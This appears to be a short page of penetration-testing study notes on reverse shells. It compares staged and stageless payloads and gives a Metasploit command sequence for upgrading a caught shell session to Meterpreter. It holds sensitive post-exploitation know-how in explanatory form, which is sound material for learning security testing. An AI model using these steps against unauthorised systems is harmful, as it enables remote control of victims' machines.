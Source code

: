 # Shells

![](<../../../../.gitbook/assets/image (25).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader  part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35).png>)

![](<../../../../.gitbook/assets/image (26).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```

